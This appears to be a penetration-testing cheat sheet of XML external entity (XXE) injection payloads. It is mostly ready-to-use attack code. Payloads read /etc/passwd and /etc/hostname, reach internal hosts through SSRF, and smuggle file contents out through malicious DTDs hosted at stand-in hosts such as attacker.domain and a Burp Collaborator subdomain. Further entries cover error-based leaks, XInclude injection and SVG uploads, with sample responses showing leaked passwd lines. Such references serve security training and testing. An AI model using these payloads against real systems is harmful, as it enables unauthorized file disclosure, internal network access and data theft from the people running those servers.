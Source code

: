 ```yaml
---
title : "XXE Injection"
pre : '<i class="fa fa-file-excel"></i> '
description : "XXE injection payloads."
date : 2022-03-11T18:01:46+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## XML external entity (XXE) injection

## Retrieve files

Add DOCTYPE line to XML and call entity via a value used in the app.

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

## Invoke SSRF

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<foo>&xxe;</foo>
```

## Blind XXE

If response is not returned to client, we can use Burp collaborator for out-of-band testing ([read about OAST](https://portswigger.net/burp/application-security-testing/oast)).

### Blind XEE using OAST

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> ]>
<foo>&xxe;</foo>
```

### Blind XEE using OAST via XML parameter entities

Add DOCTYPE line to XML with Burp collaborator URL and call XML parameter entity via a value used in the app (mind the '%' in both lines).

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY % xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> %xxe; ]>
<foo>%xxe;</foo>
```

### Blind XXE to exfiltrate data via OAST

In order to exfiltrate data using XEE via OAST, you need to host DTD.
Note that files with newlines (e.g. '/etc/passwd') cannot be exfiltrated this way.

First host malicious DTD (e.g. 'ht<span>tp://</span>attacker.domain/dtd'):

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://SUBDOMAIN.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Then inject XEE in HTTP request:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://attacker.domain/dtd"> %xxe;]>
```

### Blind XXE to exfiltrate data via error messages

Works if the app returns the resulting error message within its response. It's possible to exfiltrate files with newlines this way.

First host malicious DTD (e.g. 'ht<span>tp://</span>attacker.domain/dtd'):

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Then inject XEE in HTTP request:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://malicious.domain/dtd"> %xxe;]>
```

Example HTTP response:

```plain
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1339

"XML parser exited with non-zero code 1: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
```

### Blind XXE by repurposing a local DTD

See [PortSwigger Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)

## Exploiting XInclude to retrieve files

Often you don't see the XML from a client's perspective. Instead, the app backend embeds user input into an XML document. Classic XXE will not work, but we can use XInclude for this.

```plain
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example in HTTP request (injecting via 'productId' example parameter):

```plain
POST /product/stock HTTP/1.1
Host: example.net
Content-Type: application/x-www-form-urlencoded
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example HTTP response:

```plain
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1278

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]
```

## XXE via file upload

Upload SVG file containing XXE code:

```plain
<?xml version="1.0" standalone="yes"?><!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content type

Some apps tolerant changing the content type to XML.

Normal HTTP request:

```plain
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Request content changed to XML, opening possible XXE attack surface:

``` plain
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

## URL List

- [Portswigger.net academy - XXE injection](https://portswigger.net/web-security/xxe)
